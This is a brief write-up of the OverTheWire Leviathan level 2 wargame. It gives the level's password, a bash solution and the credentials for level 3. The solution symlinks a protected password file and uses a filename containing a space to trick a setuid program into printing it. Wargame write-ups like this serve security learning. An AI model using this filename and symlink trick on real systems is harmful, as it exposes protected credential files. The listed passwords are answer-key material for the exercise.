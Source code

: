 ###Leviathan Level 2

[Leviathan2](http://overthewire.org/wargames/leviathan/leviathan2.html)

**Username**: *leviathan2*

**Password**: *ougahZi8Ta*


###Solution
```bash
mkdir /tmp/maldevel_test
cd /tmp/maldevel_test
ln -s /etc/leviathan_pass/leviathan3 ./file
touch file\ asdf
cd ~
./printfile /tmp/maldevel_test/file\ asdf
```

####Credentials for Level 3

**Username**: *leviathan3*

**Password**: *Ahdiemoo1j*

